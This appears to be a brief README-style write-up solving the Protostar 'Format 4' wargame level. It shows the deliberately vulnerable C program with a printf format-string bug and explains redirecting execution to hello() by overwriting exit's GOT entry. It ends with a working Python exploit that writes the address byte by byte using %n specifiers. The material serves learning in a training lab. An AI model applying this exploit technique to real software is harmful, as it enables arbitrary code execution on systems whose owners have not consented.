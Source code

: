 # A-short-solution-to-Protostar-level-Format-4
## the c code
Here's the source code 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
As you can see the main function calls vuln() which calls fgets to take input in the buffer and the print it via printf() and *then calls the exit function*
Our aim is to redirect the code execution to hello(). This is an easy problem so I will only *very* briefly explain the basic idea behind the soution. 

Since there is a exit call, there is no use of overwriting the return address pointer on the stack.

To redirect the code execution, we simply go to procedure linkage table of the program which will lead us to the exit address on the Global offset table.
Now we exploit the format string exploit to overwrite it. 
Now the usual solutions you will see on internet(like the one on the live overflow website) involve overwriting it in two parts using format specifier %n and some little neat tricks with their modifiers.
But half the hexadecimal address is still a very large number in decimal. We have to print thousands of blank spaces to achieve that overwrite.

What we can do instead is write the address in four passes writing 1 byte in each passes. We can significantly reduce the number of printed characters from tens of thousands to a few hundred. 
There will be over flow in each write but that will get overwritten in the next pass and in the 4th pass the overflow will be to the next memory adress (with reference to the script it'll be at EXIT4) but since we care only about 4 bytes it'll work

Note that the code will only run on protostarOS for obvious reasons.

## Here's the actual python code to do so
```
import struct
HELLO = 0x080484b4
EXIT = 0x08049724
EXIT1 = 0x8049725
EXIT2 = 0x8049726
EXIT3 = 0x8049727
EXIT4 = 0x8049728
def pad(s):
   return s+"X"*(512-len(s))

exploit = ""
exploit+= "AAAA"
exploit+= struct.pack("I",EXIT)
exploit+= struct.pack("I",EXIT1)
exploit+= struct.pack("I",EXIT2)
exploit+= struct.pack("I",EXIT3)
exploit+= struct.pack("I",EXIT4)

exploit+= "i%4$155x%5$n%208x%6$n%128x%7$n%260x%8$n"

print pad(exploit)
```
